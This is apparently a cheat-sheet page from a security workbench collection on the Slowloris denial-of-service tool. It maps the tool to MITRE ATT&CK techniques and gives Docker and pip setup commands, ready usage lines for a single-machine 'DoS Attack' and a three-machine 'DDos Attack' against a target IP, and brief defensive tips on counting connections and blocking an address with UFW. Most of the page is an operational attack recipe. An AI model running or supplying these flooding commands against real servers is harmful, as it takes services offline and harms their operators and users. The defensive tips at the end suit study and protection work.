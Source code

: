 # Slowloris

**Keywords:** DDoS

## References

- [MITRE ATT&CK](https://attack.mitre.org/)

## Kill Chain

- Recon
- Exploit
- Escalate
- Lateral Movement
- Evade
- Action

## MITRE ATT&CK

### Tactics

- Reconnaissance
- Resource Development
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Command & Control
- Exfiltration
- Impact
  - T1498: Network Denial of Service
  - T1499: Endpoint Denial of Service

## Docker

### Network

```sh
docker network create workbench \
  --subnet 10.1.1.0/24
```

### Running

```sh
docker run -d \
  $(echo "$DOCKER_RUN_OPTS") \
  -h slowloris \
  --name slowloris \
  --network workbench \
  docker.io/aminvakil/slowloris:latest [ip-address] \
    -s 900
```

### Remove

```sh
docker rm -f slowloris
```

## CLI

### Installation

#### pip

```sh
pip3 install Slowloris
```

### Usage

```sh
# DoS Attack
slowloris [ip-address] -s 900

# DDos Attack
slowloris [ip-address] -s 300 --sleeptime 3 # Machine 1
slowloris [ip-address] -s 400 --sleeptime 4 # Machine 2
slowloris [ip-address] -s 500 --sleeptime 5 # Machine 3
```

## Tips

### Listen Treads

```sh
netstat -ant | grep -E ':80|:443' | wc -l
```

### Prevent Attack with Uncomplicated Firewall (UFW)

```sh
#
sudo ufw enable

#
sudo ufw insert 1 deny from [ip-address]

#
sudo ufw status numbered

#
sudo ufw delete [number]
```
